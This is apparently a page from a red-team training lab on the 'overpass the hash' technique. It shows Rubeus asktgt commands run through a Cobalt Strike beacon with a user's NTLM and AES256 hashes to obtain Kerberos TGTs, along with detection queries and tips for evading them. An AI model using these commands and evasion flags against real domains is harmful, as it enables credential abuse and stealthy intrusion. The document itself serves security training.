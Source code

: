 Overpass the hash is a technique which allows us to request a Kerberos TGT for a user, using their NTLM or AES hash.  Elevated privileges are required to obtain user hashes, but not to actually request a ticket.

Rubeus `asktgt` has us covered for this task.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:jking /ntlm:59fc0f884922b4ce376051134c71e22c /nowrap

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 59fc0f884922b4ce376051134c71e22c
[*] Building AS-REQ (w/ preauth) for: 'dev.cyberbotic.io\jking'
[*] Using domain controller: 10.10.122.10:88

[09/01 10:24:04] [+] received output:
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFmj [...snip...] 5pbw==

  ServiceName              :  krbtgt/dev.cyberbotic.io
  ServiceRealm             :  DEV.CYBERBOTIC.IO
  UserName                 :  jking
  UserRealm                :  DEV.CYBERBOTIC.IO
  StartTime                :  9/1/2022 2:23:59 PM
  EndTime                  :  9/2/2022 12:23:59 AM
  RenewTill                :  9/8/2022 2:23:59 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  NytFQCt4OMyeF+BjfPSrbw==
  ASREP (key)              :  59FC0F884922B4CE376051134C71E22C
```
  

This TGT can then be leveraged via Pass the Ticket.

  

  **OPSEC**  
  
Using an NTLM hash results in a ticket encrypted using RC4 (0x17).  This is considered a legacy encryption type and therefore often stands out as anomalous in a modern Windows environment.  The "RC4 TGTs" saved search will show all 4768 events where the ticket encryption type is 0x17.  It's very likely that the only result there will be the one generated from the above command.

  

To obtain a TGT encrypted using AES256 (0x12), you guessed it, use the user's AES256 hash instead.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:jking /aes256:4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6 /nowrap

[*] Action: Ask TGT

[*] Using aes256_cts_hmac_sha1 hash: 4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6
[*] Building AS-REQ (w/ preauth) for: 'dev.cyberbotic.io\jking'
[*] Using domain controller: 10.10.122.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

doIFuj [...snip...] ljLmlv

  ServiceName              :  krbtgt/dev.cyberbotic.io
  ServiceRealm             :  DEV.CYBERBOTIC.IO
  UserName                 :  jking
  UserRealm                :  DEV.CYBERBOTIC.IO
  StartTime                :  9/1/2022 2:54:36 PM
  EndTime                  :  9/2/2022 12:54:36 AM
  RenewTill                :  9/8/2022 2:54:36 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  BBLSeA9nnaNeYIcHqf787V0m5Znz1ednGMXh9V9aorE=
  ASREP (key)              :  4A8A74DAAD837AE09E9ECC8C2F1B89F960188CB934DB6D4BBEBADE8318AE57C6
```
  

You can find the corresponding 4768 event with this query:

event.code: 4768 and winlog.event_data.TicketEncryptionType: 0x12 and winlog.event_data.TargetUserName: jking

  

It will be practically undistinguishable from the other TGT requests, with the exception of two fields:

1. The Supplied Realm Name will be dev.cyberbotic.io, instead of DEV.
2. The Ticket Options will be 0x40800010 instead of 0x40810010.

  

The asktgt command has two optional parameters that we can use to blend in a bit more.

If no `/domain` is specified, Rubeus uses the FQDN of the domain this computer is in.  Instead, we can force it to use the NetBIOS name with `/domain:DEV`.  There is also an `/opsec` flag which tells Rubeus to request the TGT in such a way that results in the Ticket Options being 0x40810010.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:jking /aes256:4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6 /domain:DEV /opsec /nowrap
```
  

  **More OPSEC**  
  
Mimikatz can also perform overpass the hash, but in a way that writes into LSASS.  Rubeus' method doesn't touch LSASS but it does generate Kerberos traffic from an anomalous process, as this usually only occurs from LSASS.  These can be seen using the "Kerberos Traffic from Suspicious Process" saved search.  
  
The bottom line is that you have to "pick your poison".
